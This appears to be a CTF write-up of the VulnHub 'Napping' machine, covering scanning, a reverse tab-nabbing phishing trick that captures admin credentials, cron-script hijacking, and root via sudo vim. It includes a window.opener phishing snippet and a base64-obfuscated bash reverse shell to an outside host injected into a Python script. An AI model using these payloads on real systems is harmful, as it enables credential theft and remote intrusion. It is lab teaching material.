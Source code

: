 ```yaml
---
title: "napping 1.0.1 vulnhub writeup"
author: "0xMesbaha"
header:
  teaser: "/assets/images/napping/napping.jpg"
tags: ["Vulnhub", "tab-nabbing", "phishing", "vim"]
categories:
  - Linux Machines
ribbon: blue
date: 2022-06-27T00:45:19+02:00
toc: true
draft: false
---
```


In This VulnHub Box, we are facing a relatively an interesting vulnerability which is tab-nabbing that will help us phish the admin to get his credentials which we can use to ssh into the Box , From There we can get a reverse shell from adrian user as he is running a cron job which is a python script and we can write into it because we are in the administrators group. and for the root part we have sudo privilege on vim editor.

you can download the machine from [here](https://www.vulnhub.com/entry/napping-101,752/) we have the description :

_Even Admins can fall asleep on the job_

it indicates that some admin will make a mistake or something but let's Jump in and see ourselves.

<!--more-->

First we need to get the IP of the target machine with :

```bash
sudo netdiscover
```

and I have got the IP address : `192.168.1.12` Let's start our process :

## Scanning

```bash
nmap -A -T4 192.168.1.12 -oN nmap.inital
```

results :

```cmd
Host is up (0.0062s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 24:c4:fc:dc:4b:f4:31:a0:ad:0d:20:61:fd:ca:ab:79 (RSA)
|   256 6f:31:b3:e7:7b:aa:22:a2:a7:80:ef:6d:d2:87:6c:be (ECDSA)
|_  256 af:01:85:cf:dd:43:e9:8d:32:50:83:b2:41:ec:1d:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

From the results we know the following :

- the target machine is Ubuntu
- the Apache version running 2.4.41
- httponly flag not set which can lead to XSS (cross site scripting)
- we will get a login page when we visit the page

Also we can do a full port scanning But with no more results

## Enumeration

Before hopping into the website let's do some basics enumeration from the terminal

#### Directory Busting :

```bash
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt  -u http://192.168.1.12/FUZZ -o files-medium.txt -fc 403
```

Output :

```cmd
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
index.php               [Status: 200, Size: 1219, Words: 334, Lines: 38]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
welcome.php             [Status: 302, Size: 0, Words: 1, Lines: 1]
register.php            [Status: 200, Size: 1566, Words: 434, Lines: 42]
reset-password.php      [Status: 302, Size: 0, Words: 1, Lines: 1]
```

visiting the web page we got a login :

![error](/assets/images/napping/20220627113927.png)

Trying some basic SQLi statements But no bypasses. so Let's create an account and see what is going on .

After logging in we will be redirected to **/welcome.php** which we have found earlier

![error](/assets/images/napping/20220627120228.png)

we can try to go to the **/reset-password.php** maybe we can change the ID or the username if it was being sent with the request to admin and reset his password. But unfortunately we can't :

![error](/assets/images/napping/20220627120508.png)

we can see the Enter URL and the admin will check. i have tried some wrappers (file:// and php://) But no results , However with being said admin will review it this should trigger your XSS sense.

I made an empty html file and host it , then submit the link of my URL and wait to see what will happen and Look :

![error](/assets/images/napping/20220627124018.png)

It seems after 2 minutes of submission the url the admin will indeed review it , so we can try to steal any useful data

However i tried a lot but no thing is getting back.

![x](https://media.giphy.com/assets/images/GlqUe0PhpAHCg/giphy.gif)

Let's check the Page source code , we can see this weird target value `_blank`

![error](/assets/images/napping/20220627130623.png)

Searching for it found it is actually a [vulnerability](https://www.jitbit.com/alexblog/256-targetblank---the-most-underestimated-vulnerability-ever/) can open phishing scenarios , and we know the admin will visit this fake page , also from description we know even admin may made mistake so let's clone the login page (copy html code) our hope is the admin to submit his username and password

## Foothold

Following the Article steps :

1- clone the Login page source code

2- add the following in the source code which the data will be redirected to

```html
<script>
  window.opener.location = "http://192.168.1.11:9090";
</script>
```

_note: add other port rather than the http port because it is a POST request so the data submitted will not appear at the uri in the http server_

3- Host the page and submit the URL

and after 2 minutes we got the Juicy stuff :

![error](/assets/images/napping/20220627134313.png)

now we have this credentials after URL decoding
`daniel:C@ughtm3napping123`

Trying these credentials in the web page we got invalid login , trying them with the **ssh** port we have found earlier we are in finally

![error](/assets/images/napping/20220627134759.png)

## Lateral movement

First thing that have my attention is the **administrators** group , so let's check what is interesting about this group

```bash
daniel@napping:~$ find / -group administrators  2>/dev/null
/home/adrian/query.py
daniel@napping:~$ ls -l /home/adrian/query.py
-rw-rw-r-- 1 adrian administrators 481 Oct 30  2021 /home/adrian/query.py
```

nice we have write access to that folder , we can edit it but then what ? , we need also user adrian to execute it and there should be some crontab running to achieve that.

However there is no crontabs under the `/etc/crontab` , there are other cornjobs that are under `/var/spool/cron` and normally only the user who owns it will be able to access it.

we can upload [pspy](https://github.com/DominicBreuker/pspy) and monitor the processes running and check for such a cron job

![error](/assets/images/napping/20220627141335.png)

and guess who is the User whose id is 1000 ?

```bash
daniel@napping:/tmp$ cat /etc/passwd | grep adrian
adrian:x:1000:1000:adrian:/home/adrian:/bin/bash
```

so we can simply add our malicious piece of code in the script running by adrian and we will get a reverse shell :

```bash
import os
os.system("echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExLzg4ODggMD4mMQ== | base64 -d | bash")
```

_note we need to base64 encode the reverse shell payload as it contains some special characters will disturb the execution_

![error](/assets/images/napping/20220627142623.png)

## root Access

and the root part is really easy :

![error](/assets/images/napping/20220627142726.png)

```bash
sudo /usr/bin/vim
# press ESC then
```

![error](/assets/images/napping/20220627142856.png)

And the machine has been pwned ;)

![error](/assets/images/napping/20220627142914.png)

## After root

Under ` /var/spool/cron/crontabs/adrian` we can see

```bash
*/2 * * * * /usr/bin/python3 /home/adrian/query.py
```

and under ` /var/spool/cron/crontabs/root`

```bash
*/2 * * * * /usr/bin/python3 /root/nap.py
```

The script was checking for the opener.location in the page the admin visit and if present it will submit the data

```python
data = {
        "username":"daniel",
        "password":"C@ughtm3napping123"
        }

    elif (search.find('opener.location') != -1):
        match = re.findall("http(.*);",search)
        new_url = 'http' + match[0].rstrip(match[0][-1])
        r2 = requests.post(new_url,data=data,timeout=2)
```
